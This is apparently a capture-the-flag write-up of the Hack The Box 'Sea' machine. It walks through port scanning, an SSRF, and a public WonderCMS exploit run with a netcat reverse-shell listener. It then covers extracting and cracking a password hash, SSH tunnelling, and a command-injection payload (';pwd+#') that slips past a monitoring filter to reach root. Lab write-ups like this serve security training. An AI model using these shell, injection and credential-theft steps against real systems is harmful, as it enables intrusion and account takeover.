

# SEA

### Setting up HTB

---

Make sure you have mapped the IP address `10.10.11.28` to `sea.htb` in your hosts file before proceeding



### NMAP

---

I began the challenge by using Nmap to scan for open ports.

```bash
root@ENGINEERING:/home/cbjs/htb# nmap -sV -A -p- -Pn -T4 -sC 10.10.11.28 --open
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-11 22:49 AEDT
Nmap scan report for 10.10.11.28
Host is up (0.011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/11%OT=22%CT=1%CU=42946%PV=Y%DS=2%DC=T%G=Y%TM=67597C
OS:6D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST
OS:11NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   10.73 ms 10.10.14.1
2   11.05 ms 10.10.11.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.19 seconds
```

The Nmap scan of the target `10.10.11.28` revealed two open ports: **22/tcp** running OpenSSH 8.2p1 and **80/tcp** hosting an Apache HTTP server version 2.4.41 on Ubuntu. The scan, conducted using the `-sV -A -p- -Pn -T4 -sC --open` flags, also provided details such as HTTP headers, cookie settings, and the web page title "Sea - Home." Although no exact OS match was found, the host is confirmed to be running Linux, and it was reachable within two network hops. 

### Contact Form

---

I explored the website and discovered the contact form.


I tested the website and discovered an SSRF vulnerability, which I confirmed by setting up my own HTTP server. If I received a response from the server, it indicated that the site indeed had an SSRF vulnerability.


### Further RECON

---

From that, I know I need to exploit the website field, but I’m unsure about the type of file management system being used. Enumerate time !!! 

I used ffuf and found out the following endpoint `http://sea.htb/themes/bike/README.md`

```bash
root@ENGINEERING:/home/cbjs/htb/sea# curl http://sea.htb/themes/bike/README.md
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview


## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```

I do a quick google search and come across this cve `WonderCMS: **CVE-2023-41425**.`
https://github.com/prodigiousMind/CVE-2023-41425

### Apply the CVE

---

Firstly, I need to start netcat listener

```bash
rlwrap -cAr nc -lvp 6666
```

And we can generate a crafted link using the CVE exploit

```bash
python3 exploit.py -u http://sea.htb/loginURL -lh 10.10.14.41 -lp 7777 -sh 10.10.14.41 -sp 8888
```

The exploit generates this.


The main.zip is basically php webshell 


Now, let’s enumerate the reverse shell we have. I found two users, Amay and Geo. I attempted to access Amay's folder and read `user.txt`, which contains the flag. However, the `www-data` user does not have sufficient privileges to read `user.txt`.


### Escalating to amay User

---

I find amay credential by finding database.js in `/var/www/sea/data`

```bash
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/12\/29 00:13:28": "127.0.0.1",
            "2024\/12\/29 00:09:58": "127.0.0.1",
            "2024\/12\/29 00:02:57": "127.0.0.1",
            "2024\/12\/29 00:00:27": "127.0.0.1",
            "2024\/12\/28 23:59:57": "127.0.0.1"
        },
        "lastModulesSync": "2024\/12\/29",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
        },
        "logoutToLoginScreen": {}
    },
    "pages": {
        "404": {
            "title": "404",
            "keywords": "404",
            "description": "404",
            "content": "<center><h1>404 - Page not found<\/h1><\/center>",
            "subpages": {}
        },
        "home": {
            "title": "Home",
            "keywords": "Enter, page, keywords, for, search, engines",
            "description": "A page description is also good for search engines.",
            "content": "<h1>Welcome to Sea<\/h1>\n\n<p>Hello! Join us for an exciting night biking adventure! We are a new company that organizes bike competitions during the night and we offer prizes for the first three places! The most important thing is to have fun, join us now!<\/p>",
            "subpages": {}
        },
        "how-to-participate": {
            "title": "How to",
            "keywords": "Enter, keywords, for, this page",
            "description": "A page description is also good for search engines.",
            "content": "<h1>How can I participate?<\/h1>\n<p>To participate, you only need to send your data as a participant through <a href=\"http:\/\/sea.htb\/contact.php\">contact<\/a>. Simply enter your name, email, age and country. In addition, you can optionally add your website related to your passion for night racing.<\/p>",
            "subpages": {}
        }
    },
    "blocks": {
        "subside": {
            "content": "<h2>About<\/h2>\n\n<br>\n<p>We are a company dedicated to organizing races on an international level. Our main focus is to ensure that our competitors enjoy an exciting night out on the bike while participating in our events.<\/p>"
        },
        "footer": {
            "content": "©2024 Sea"
        }
    }
}$ {
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",

```

The reason is that the database is neither encrypted nor complex, as WonderCMS is a file-based system. Now i will try to crack this hash

`"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q"`

The hash looks quite funny with the `\`. Since it is odd so i will try to remove it and only leave `/` .


So, we obtained the password `mychemicalromance`. Since port 22 is open, we can attempt to SSH into the Amay user account.


Now we can read the flag user.txt


### Escalating to root User

---

Using SSH tunneling with the `-L 8000:localhost:9000` option lets my VM listen on port 8000 and forward traffic through the SSH session to port 9000 on Sea, making further investigation easier.
Let’ access this [`http://localhost:9000/](http://localhost:9000/)`
Interesting, it seems to be a SIEM !!


Lol, i can see it detects suspicious traffic


### Command Injection

---

I added `;` followed by a command. I tried `pwd`, but it didn’t display anything because the SIEM system detects suspicious traffic pattern. 


Let’s try to bypass it. I add `;pwd+#` and confirm that I am in `/root/monitoring`.

Since it works, I proceed to read the flag using `cat /root/root.txt`.


GG!!!

